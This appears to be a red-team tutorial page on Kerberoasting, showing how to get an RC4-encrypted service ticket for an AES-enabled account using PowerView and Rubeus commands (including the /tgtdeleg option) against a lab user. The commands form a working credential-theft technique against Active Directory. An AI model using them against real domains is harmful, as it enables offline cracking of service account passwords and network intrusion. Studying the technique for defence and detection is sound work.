




# Kerberoasting: Requesting RC4 Encrypted TGS when AES is Enabled

It is possible to kerberoast a user account with SPN even if the account supports Kerberos AES encryption by requesting an RC4 ecnrypted \(instead of AES\) TGS which easier to crack.

## Execution

First off, let's confirm we have at least one user with an SPN set:


```text
Get-NetUser -SPN sandy
```




Since the user account does not support Kerberos AES ecnryption by default, when requesting a TGS ticket for kerberoasting with rubeus, we will get an RC4 encrypted ticket:


```text
F:\Rubeus\Rubeus.exe kerberoast /user:sandy
```




If the user is now set to support AES encryption:



By default, returned tickets will be encrypted with the highest possible encryption algorithm, which is AES:


```text
F:\Rubeus\Rubeus.exe kerberoast /user:sandy
```




## Requesting RC4 Encrypted Ticket

As mentioned in the beginning, it's still possible to request an RC4 ecnrypted ticket \(if RC4 is not disabled in the environment, which does not seem to be common yet\):


```text
F:\Rubeus\Rubeus.exe kerberoast /tgtdeleg
```


Even though AES encryption is supported by both parties, a TGS ticket encrypted with RC4 \(encryption type 0x17/23\) was returned. Note that SOCs may be monitoring for tickets encrypted with RC4:


## References



